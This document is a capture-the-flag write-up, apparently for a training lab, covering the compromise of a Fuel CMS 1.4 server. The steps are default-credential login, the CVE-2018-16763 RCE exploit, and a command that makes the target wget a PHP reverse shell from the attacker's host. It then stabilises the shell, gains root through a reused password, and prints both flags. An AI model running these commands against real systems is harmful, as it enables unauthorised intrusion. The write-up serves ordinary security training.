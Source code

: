 ```yaml
---
sticker: lucide//flame
---
```

# ENUMERATION
---



## OPEN PORTS
---

| PORT | SERVICE |
| :--- | :------ |
| 80   | HTTP    |

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

# RECONNAISSANCE
---


We only got a website, let's check it out:



![](Pasted%20image%2020250409164857.png)

We are dealing with something called `Fuel CMS` at version `1.4`, let's check `robots.txt` since the entrance is allowed:


![](Pasted%20image%2020250409164943.png)


We got a `/fuel` directory:



![](Pasted%20image%2020250409165010.png)

It takes us to a login page, if we take a deeper look at the main page, we can see this:

![](Pasted%20image%2020250409165238.png)

Maybe default credentials still work, let's try:

![](Pasted%20image%2020250409165313.png)

There we go, default credentials work, let's proceed to exploitation phase.



# EXPLOITATION
---


Since we already got access to the admin panel, we can start searching for a way to get a shell, for example, since we already know we are dealing with `Fuel CMS 1.4`, we can take a look for any exploit:


![](Pasted%20image%2020250409165623.png)

We got a `RCE` exploit on GitHub, this exploits CVE-2018-16763, if we search this CVE, we can find this information:

```
Description

FUEL CMS 1.4.1 allows PHP Code Evaluation via the pages/select/ filter parameter or the preview/ data parameter. This can lead to Pre-Auth Remote Code Execution.
```


Let's download the exploit and test:

```
GITHUB: https://github.com/noraj/fuelcms-rce
```

![](Pasted%20image%2020250409165739.png)

There we go, we got `RCE`, we can download a reverse shell file and put it into the machine like this: 

```
ruby exploit.rb http://10.10.172.18/ "wget+http://10.6.34.159:8000/thm_shell.php+-O+/var/www/html/shell.php"
```

We can see it gets downloaded:

![](Pasted%20image%2020250409171154.png)

Now, we can simply visit:

```
http://IP/shell.php
```

If we got our listener ready, we'll see the connection:

![](Pasted%20image%2020250409171256.png)



# PRIVILEGE ESCALATION
---


First step is to get a stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](Pasted%20image%2020250409171335.png)

We can read first flag:

```
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

I used `linpeas` and found this, since there are no `4000 SUID` binaries or other stuff like that, maybe this will do to get root:


![](Pasted%20image%2020250409172944.png)

We got a password, let's switch to root:

![](Pasted%20image%2020250409173005.png)

Yeah, they reused the password for the database with the same as the bash console, let's get root flag:

```
root@ubuntu:/home/www-data# cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```


![](Pasted%20image%2020250409173046.png)


